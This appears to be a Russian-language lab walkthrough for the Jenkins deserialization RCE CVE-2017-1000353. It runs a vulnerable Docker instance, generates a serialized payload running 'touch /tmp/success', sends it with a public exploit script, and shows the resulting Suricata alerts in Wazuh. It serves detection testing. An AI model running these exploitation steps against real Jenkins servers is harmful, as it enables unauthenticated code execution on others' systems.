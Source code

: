 # CVE-2017-1000353

Jenkins версий 2.56 и более ранних, а также 2.46.1 LTS и более ранних уязвимы для удаленного выполнения кода без проверки подлинности. Уязвимость удаленного выполнения кода без аутентификации позволяла злоумышленникам передавать сериализованный Java-объект SignedObject в интерфейс командной строки Jenkins, который затем десериализовался с использованием нового ObjectInputStream в обход существующего механизма защиты на основе черного списка.

### Экслуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8080/ будет доступна страница Jenkins

Для реализации данной уязвимости нужно сгенерировать полезную нагрузку с помощью этого [файла](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Далее с помощью [эксплоита](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) доставить полезную нагрузку&#x20;

```
python3 exploit.py http://ваш-ip:8080 jenkins_poc.ser
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

В результате эксплуатации был создан файл /tmp/success&#x20;

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
